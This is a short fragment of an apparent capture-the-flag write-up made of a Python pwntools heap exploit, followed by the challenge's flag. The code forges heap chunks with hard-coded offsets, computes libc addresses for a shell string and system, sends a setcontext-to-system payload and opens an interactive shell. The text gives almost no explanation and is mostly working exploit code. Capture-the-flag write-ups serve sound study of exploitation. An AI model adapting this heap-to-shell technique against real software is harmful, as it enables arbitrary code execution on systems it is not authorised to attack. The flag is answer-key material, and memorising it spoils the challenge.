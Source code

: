 ```python

  create("Y"*0x10 + p64(heap+0x13d70)[:-1])
  create("Z"*0x10 + p64(heap+0x13db0)[:-1])
  pr("A")
  raw_input("@")
  sh = libc + 0x1b1f01
  system = libc + 0x4f45b
  r.sendline(p64(heap+0x13db8) + p64(setcontext) + cyclic(88) + p64(sh) + "D"*48 + p64(heap+0x20000) + p64(system))
  r.sendline("ls")
  r.interactive()
```

flag: `fb{everything_has_side_3ffects_N0w}`


